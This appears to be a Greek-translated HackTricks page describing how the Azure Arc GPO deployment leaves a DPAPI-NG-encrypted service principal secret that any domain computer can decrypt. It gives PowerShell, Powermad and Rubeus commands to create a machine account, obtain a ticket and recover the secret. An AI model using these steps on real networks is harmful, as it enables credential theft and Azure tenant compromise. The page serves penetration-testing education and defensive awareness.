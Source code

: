 # Az - Ευάλωτο Σενάριο Αναπτυγμένου GPO του Azure Arc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Συμμετέχετε** 💬 στην [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια του [**HackTricks**](https://github.com/carlospolop/hacktricks) και του [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### Αναγνώριση των Προβλημάτων

Το Azure Arc επιτρέπει την ολοκλήρωση νέων εσωτερικών διακομιστών (διακομιστές που έχουν ενταχθεί στον τομέα) στο Azure Arc χρησιμοποιώντας τη μέθοδο Group Policy Object. Για να διευκολύνει αυτή τη διαδικασία, η Microsoft παρέχει ένα εργαλείο ανάπτυξης που απαιτείται για την έναρξη της διαδικασίας ενσωμάτωσης. Μέσα στο αρχείο ArcEnableServerGroupPolicy.zip, μπορούν να βρεθούν τα ακόλουθα σενάρια: DeployGPO.ps1, EnableAzureArc.ps1, και AzureArcDeployment.psm1.

Κατά την εκτέλεση, το σενάριο DeployGPO.ps1 εκτελεί τις ακόλουθες ενέργειες:

1. Δημιουργεί το Azure Arc Servers Onboarding GPO εντός του τοπικού τομέα.
2. Αντιγράφει το σενάριο ενσωμάτωσης EnableAzureArc.ps1 στον καθορισμένο κοινόχρηστο φάκελο που δημιουργήθηκε για τη διαδικασία ενσωμάτωσης, ο οποίος περιέχει επίσης το πακέτο εγκατάστασης των Windows.

Κατά την εκτέλεση αυτού του σεναρίου, οι διαχειριστές συστημάτων πρέπει να παρέχουν δύο κύριες παραμέτρους: **ServicePrincipalId** και **ServicePrincipalClientSecret**. Επιπλέον, απαιτούνται άλλες παράμετροι όπως τον τομέα, το FQDN του διακομιστή που φιλοξενεί τον κοινόχρηστο φάκελο, και το όνομα του κοινόχρηστου φακέλου. Επιπλέον, πρέπει να παρέχονται λεπτομέρειες όπως το ID του ενοικιαστή, τον ομάδα πόρων, και άλλες απαραίτητες πληροφορίες στο σενάριο.

Ένα κρυπτογραφημένο μυστικό δημιουργείται στον κατάλογο AzureArcDeploy στον καθορισμένο κοινόχρηστο φάκελο χρησιμοποιώντας κρυπτογράφηση DPAPI-NG. Το κρυπτογραφημένο μυστικό αποθηκεύεται σε ένα αρχείο με το όνομα encryptedServicePrincipalSecret. Αποδείξεις γι' αυτό μπορούν να βρεθούν στο σενάριο DeployGPO.ps1, όπου η κρυπτογράφηση πραγματοποιείται καλώντας το ProtectBase64 με το $descriptor και το $ServicePrincipalSecret ως εισόδους. Το descriptor αποτελείται από τα SIDs των ομάδων Domain Computer και Domain Controller, εξασφαλίζοντας ότι το ServicePrincipalSecret μπορεί να αποκρυπτογραφηθεί μόνο από τις ομάδες ασφαλείας Domain Controllers και Domain Computers, όπως αναφέρεται στα σχόλια του σεναρίου.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Εκμετάλλευση

Έχουμε τις ακόλουθες συνθήκες:

1. Έχουμε εισβάλει με επιτυχία στο εσωτερικό δίκτυο.
2. Έχουμε τη δυνατότητα να δημιουργήσουμε ή να αναλάβουμε τον έλεγχο ενός λογαριασμού υπολογιστή εντός του Active Directory.
3. Έχουμε ανακαλύψει ένα κοινόχρηστο φάκελο που περιέχει τον κατάλογο AzureArcDeploy.

Υπάρχουν αρκετές μέθοδοι για την απόκτηση ενός λογαριασμού μηχανής εντός ενός περιβάλλοντος AD. Μία από τις πιο κοινές είναι η εκμετάλλευση του ορίου του λογαριασμού μηχανής. Μια άλλη μέθοδος περιλαμβάνει την εκμετάλλευση ενός λογαριασμού μηχανής μέσω ευάλωτων ACLs ή διαφόρων άλλων λαθών ρυθμίσεων.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Μόλας που αποκτήθηκε ένα λογαριασμός μηχανής, είναι δυνατή η πιστοποίηση χρησιμοποιώντας αυτόν τον λογαριασμό. Μπορούμε είτε να χρησιμοποιήσουμε την εντολή runas.exe με τη σημαία netonly είτε να χρησιμοποιήσουμε το pass-the-ticket με το Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Έχοντας το TGT για το λογαριασμό του υπολογιστή μας αποθηκευμένο στη μνήμη, μπορούμε να χρησιμοποιήσουμε το ακόλουθο script για να αποκρυπτογραφήσουμε το μυστικό του υπηρεσιών πρωτεύοντος.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Εναλλακτικά, μπορούμε να χρησιμοποιήσουμε το [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Σε αυτό το σημείο, μπορούμε να συγκεντρώσουμε τις υπόλοιπες πληροφορίες που χρειαζόμαστε για να συνδεθούμε στο Azure από το αρχείο ArcInfo.json, το οποίο αποθηκεύεται στον ίδιο κοινόχρηστο φάκελο με το αρχείο encryptedServicePrincipalSecret. Αυτό το αρχείο περιέχει λεπτομέρειες όπως: TenantId, servicePrincipalClientId, ResourceGroup, και άλλα. Με αυτές τις πληροφορίες, μπορούμε να χρησιμοποιήσουμε το Azure CLI για να πιστοποιηθούμε ως το υποβαθμισμένο service principal.

## Αναφορές

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
